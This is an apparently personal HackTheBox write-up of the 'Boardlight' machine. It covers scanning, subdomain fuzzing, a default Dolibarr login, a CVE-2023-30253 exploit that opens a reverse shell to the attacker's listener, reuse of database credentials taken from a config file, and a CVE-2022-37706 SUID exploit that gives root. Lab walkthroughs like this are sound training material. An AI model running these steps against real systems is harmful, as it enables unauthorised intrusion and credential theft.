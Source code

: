 ```yaml
---
title: "Boardlight"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Boardlight

![](../assets/Pasted%20image%2020250520183049.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.11 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 19:03 CEST
Nmap scan report for 10.10.11.11
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.30 ms 10.10.14.1
2   41.98 ms 10.10.11.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.55 seconds
```

The site at port `80` shows a template of a cybersec company.

![](../assets/Pasted%20image%2020250520191115.png)

There is an email.

![](../assets/Pasted%20image%2020250520191214.png)

Add the domain to `/etc/hosts`.

Using `wfuzz` let's discover subdomains.

```shell
$ wfuzz -c --hh 15949 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.board.htb" http://board.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://board.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000072:   200        149 L    504 W      6360 Ch     "crm"                                 

Total time: 4.428437
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 1126.582
```

Add `crm.board.htb` to `/etc/hosts`.

Navigating to that subdomain we get a Dolibarr instance `17.0.0`.

![](../assets/Pasted%20image%2020250520191647.png)

Trying `admin:admin` works.

![](../assets/Pasted%20image%2020250520192113.png)

## Initial Access

Using this exploit [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253), create a listener and execute it.

```shell
$ python exploit.py http://crm.board.htb admin admin 10.10.14.11 80             
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

```shell
$ sudo rlwrap nc -lnvp 80                       
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.11] 59606
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
```

In the Dolibarr config folder we can find MySQL credentials.

```shell
ww-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
...
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
...
```

Pivot to user `larissa` with the MySQL password.

```shell
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!

larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ whoami
whoami
larissa
```

```shell
larissa@boardlight:~$ cat user.txt
cat user.txt
06457c0df24e027ea565aedc9b0122a8
```

## Privilege Escalation

Looking at SUID bit we have Enlightenment `0.23.1`.

```
larissa@boardlight:/var/log$ enlightenment --version
ESTART: 0.00001 [0.00001] - Begin Startup
ESTART: 0.00020 [0.00020] - Signal Trap
ESTART: 0.00028 [0.00007] - Signal Trap Done
ESTART: 0.00039 [0.00011] - Eina Init
ESTART: 0.00075 [0.00036] - Eina Init Done
ESTART: 0.00084 [0.00009] - Determine Prefix
ESTART: 0.00101 [0.00017] - Determine Prefix Done
ESTART: 0.00106 [0.00005] - Environment Variables
ESTART: 0.00111 [0.00005] - Environment Variables Done
ESTART: 0.00116 [0.00005] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

There is a PE exploit via `searchsploit`.

![](../assets/Pasted%20image%2020250520213720.png)

Execute it and get root.

```shell
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Welcome to the rabbit hole :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

## Post Exploitation

Get the flag

```shell
# cat /root/root.txt                                                                                      
38da93b2c8510a48d47ca63cd514e4dd 
```
